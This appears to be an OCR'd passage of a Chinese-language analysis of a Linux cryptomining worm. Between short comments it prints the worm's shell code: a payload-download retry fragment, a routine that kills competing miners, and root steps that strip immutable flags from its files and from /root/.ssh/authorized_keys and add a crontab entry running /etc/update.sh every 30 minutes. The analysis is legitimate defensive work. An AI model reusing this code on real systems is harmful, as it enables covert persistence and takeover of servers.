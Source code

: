 ```
            wge --timeout=10 --tries=100 -O $2 $3
        fi
    fi
}
```

下载该病毒的程序，在bbdir/bbdira中，返回200（成功）后，先下载第一个网址参数，再下载第二个网址参数，返回405（Method Not Allowed）时同理，换为GET；其他从第三个网址参数下载。在ccdir/ccdira中，则由返回结果是否为0，决定下载参数



```
kill_sus_proc()
{
    ps axf -o "pid"|while read procid
    do
            ls -l /proc/$procid/exe | grep /tmp
            if [ $? -ne 1 ]
            then
                    cat /proc/$procid/cmdline| grep -a -E "sysguard|update.sh|sysupdate|networkservice"
                    if [ $? -ne 0 ]
                    then
                            kill -9 $procid
                    else
                            echo "don't kill"
                    fi
            fi
    done
    ps axf -o "pid %cpu" | awk '{if($2>=40.0) print $1}' | while read procid
    do
            cat /proc/$procid/cmdline| grep -a -E "sysguard|update.sh|sysupdate|networkservice"
            if [ $? -ne 0 ]
            then
                    kill -9 $procid
            else
                    echo "don't kill"
            fi
    done
}
```

杀死除本体以外的占用40%以上内存的程序



```
kill_miner_proc
kill_sus_proc
```

调用以上函数



```
if [ -f "$rtdir" ]
    then
        echo "i am root"
        echo "goto 1" >> /etc/sysupdate
        chattr -i /etc/sysupdate*
        chattr -i /etc/config.json*
        chattr -i /etc/update.sh*
        chattr -i /root/.ssh/authorized_keys*
	    chattr -i /etc/networkservice
	if [ ! -f "/usr/bin/crontab" ]
		then 
			echo "*/30 * * * * sh /etc/update.sh >/dev/null 2>&1" >> ${crondir}
		else
```